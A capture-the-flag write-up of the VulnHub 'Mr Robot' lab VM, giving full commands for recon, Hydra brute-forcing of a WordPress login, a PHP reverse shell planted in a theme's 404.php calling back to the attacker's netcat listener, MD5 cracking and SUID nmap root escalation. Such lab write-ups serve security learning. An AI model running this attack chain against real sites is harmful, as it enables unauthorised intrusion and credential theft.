

# Attacking Mr Robot - VulnHub


## Introduction
This write-up details the steps I took to solve the MR Robot vulnerable machine from VulnHub. The VM is inspired by the popular TV show "Mr. Robot" and contains three flags, each of increasing difficulty. The primary goal is to capture all three flags while demonstrating common hacking techniques such as brute-force attacks, hash cracking, and privilege escalation.

The demonstration was carried out individually, following several walkthroughs and guides found online (referenced at the end of this report).

**Threat Model:**  
In this scenario, the threat model assumes that the attacker is on the same local network as the MR Robot virtual machine.

## Enviroment Configuration

### Tools:
- VirtualBox
- Mr-Robot 1 (Relese Date: 28 Jun 2016): Target Virtual Machine
- Kali Linux: Attacker Virtual Machine.
  - Nmap: Network scanning tool.
  - Dirb: Directory brute-forcing tool.
  - Hydra: Brute-forcing tool for login credentials.
  - John the Ripper: Password cracking tool.
  - PentestMonkey PHP Reverse Shell: For obtaining shell access.
  - Burp Suite - Community Edition
  - Netcat: Networking utility for reverse shells.
  - Python: Used to spawn an interactive shell.


## Reconnaissance
### Gathering Information

The first step was to discover the target machine's IP address on the local network. I used netdiscover, a tool designed for ARP scanning, which helps identify live hosts within a subnet:

```bash
netdiscover -r 192.168.227.0/24
```


This revealed the IP address of the MR Robot machine as 192.168.227.7. With this information, I proceeded with Nmap to identify the open ports and services running on the target:

```bash
nmap 192.168.227.7 -sV -T4 -oA nmap-scan -open
```


The scan revealed a web server running on port 80. I navigated to the web page to investigate further:


DIRB
Since the target was running a web server, I decided to search for hidden directories that might reveal sensitive information using Dirb:

```bash
dirb http://192.168.227.7
```




The Dirb scan uncovered several directories, particularly ones related to WordPress, such as ```/wp-admin```, confirming that the target was running WordPress. Additionally, it revealed the existence of robots.txt, a file commonly used to instruct web crawlers on what content not to index.

Navigating to the file ```http://192.168.227.7/robots.txt``` revealed some crucial information:

- **fsocity.dic**: A wordlist file containing a large number of words, which I later used in brute-force attacks.
- **key-1-of-3.txt**: This file contained the first flag, marking the first step in the challenge.


I retrieved the first flag by visiting ```/key-1-of-3.txt```:


## Brute Force Attack
Once I discovered the WordPress login page at ```http://192.168.227.7/wp-login.php```, I began analyzing the server's responses to incorrect login attempts using Burp Suite. The server returned a clear error message, "Invalid username", when the username was incorrect, allowing me to focus on brute-forcing the username first.


I used the fsocity.dic wordlist, but since it contained over 800,000 entries with many duplicates, I filtered the list to create a more efficient wordlist:

```bash
sort fsocity.dic | uniq > fs-list
```


This reduced the list to about 11,000 unique entries.

#### Brute-Forcing the Username
Using Hydra, I started brute-forcing the WordPress login page to find a valid username:

```bash
hydra -L fs-list -p test 192.168.227.7 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid username" -t 30
```


The attack identified elliot as a valid username. I then brute-forced the password by targeting the "The password you entered for the username" error message:


I ran the following command:
```bash
hydra -l elliot -P fs-list 192.168.227.7 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=The password you entered for the username" -t 30
```


This revealed elliot's password: ER28-0652. With these credentials, I was able to log in to the WordPress admin panel.

## Exploitation
After successfully logging into the WordPress admin panel as elliot, I moved to the Appearance → Editor section, , where I was able to modify the theme files. One of the available files was 404.php, which handles the display of 404 error pages when non-existent pages are requested.

### Injecting a PHP Reverse Shell

I injected a PHP reverse shell into the 404.php file. The reverse shell script was sourced from [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/), a trusted resource for penetration testing tools. 


Before injecting the script, I updated the $ip variable to my attacking machine's IP and set $port to 7777, which I would use to capture the reverse shell connection:

```php
$ip = '192.168.227.4';  
$port = 7777; 
```

### Establishing a Reverse Shell with Netcat
I set up a Netcat listener on my attacking machine to listen for incoming connections on port 7777:

```bash
Copia codice
nc -lnvp 7777
```

### Triggering the Reverse Shell
To trigger the reverse shell, I visited a non-existent page on the target website, such as ```http://192.168.227.7/nonexistentpage```. Since the 404.php file is triggered by these types of requests, the reverse shell was executed, and I gained a shell on the target machine.

**Netcat Listener Output:** Once the reverse shell was triggered, a connection was established, and I had remote access to the target machine.


### Exploring the File System
Once I had shell access, I began exploring the file system and found two files of interest in the ```/home/robot``` directory:

**key-2-of-3.txt**: This file contained the second flag, but I was unable to read it due to permission restrictions.
**password.raw-md5**: This file contained an MD5 hashed password, which I suspected belonged to the user robot.


At this point, I needed to escalate my privileges in order to read the second flag.

## Privilege Escalation
I decided to crack the MD5 hash contained in password.raw-md5 using John the Ripper, a widely-used password-cracking tool.

#### Steps to Crack the Hash:
1. First, I extracted the MD5 hash from the file password.raw-md5 and saved it in a new file called hash:

```bash
echo c3fcd3d76192e4007dfb496cca67e13b > hash
```

2. Next, I used John the Ripper with the rockyou.txt wordlist (a common wordlist for password cracking) to crack the MD5 hash:

```bash
Copia codice
john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5
```

John quickly cracked the MD5 hash and revealed the password: ```abcdefghijklmnopqrstuvwxyz```


I switched to the user **robot** using the cracked password:

```bash
su robot
Password: abcdefghijklmnopqrstuvwxyz
```

After switching to the robot user, I launched an interactive shell using Python:

Once logged in as robot, I retrieved the second flag:

```bash
cat /home/robot/key-2-of-3.txt
```


### Root Privilege Escalation
To escalate privileges to root, I searched for SUID binaries, which allow files to be executed with elevated privileges:

```bash
find / -perm -u=s -type f 2>/dev/null
```


Among the results, I found Nmap with the SUID bit set. The version of Nmap installed on the system supported interactive mode, which allows commands to be executed as root.

```bash
nmap --interactive
```


I spawned a root shell and captured the final flag:

```bash
!sh
cat /root/key-3-of-3.txt
```


## Conclusions
This write-up detailed my experience exploiting the MR Robot VM from VulnHub. The process involved reconnaissance, brute-force attacks, exploitation, and privilege escalation, culminating in capturing all three flags.

## References
[Kali](https://www.kali.org/get-kali/#kali-platforms)
[Mr. Robot - Vulnhub](https://www.vulnhub.com/entry/mr-robot-1,151/)
[PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/)
[Explain Shell](
https://www.explainshell.com/explain?cmd=python3.1%20-c%20%27import%20pty%3B%20pty.spawn%28%22/bin/sh%22%29%27)
[Mr. Robot - Walkthrough](https://blog.christophetd.fr/write-up-mr-robot/)
[Mr. Robot - Walkthrough 2](https://medium.com/@cspanias/thms-mr-robot-ctf-walkthrough-2023-55ca5c19fbaf#25e2)
